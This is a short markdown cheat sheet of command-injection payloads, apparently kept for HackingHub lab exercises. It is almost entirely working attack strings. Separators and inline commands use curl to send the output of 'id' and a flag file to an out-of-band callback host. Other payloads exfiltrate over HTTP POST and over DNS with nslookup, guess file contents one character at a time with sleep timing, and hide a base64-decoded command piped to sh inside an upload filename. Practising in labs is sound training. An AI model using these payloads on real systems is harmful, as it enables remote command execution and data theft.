


# RCE (HackingHub)

```text
;
&&
|
$(command)
```

## Inline

```text
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```text
`cat /flag.txt > flag.txt`
```

## Blind

```text
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

## Blind Over DNS

```text
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

## Blind (No Network)

```text
; if [ $(cat /flag.txt | cut -c 1-1) = "f" ]; then sleep 3; fi
```

```text
; if [ $(cat /flag.txt | cut -c 1-6) = "flag{7" ]; then sleep 3; fi
```



## File Uploads




## Zip File Uploads

```text
$(echo "Y2F0IC9mbGFnLnR4dA==" | base64 -d | sh > test.txt).pdf
```

Compress to zip
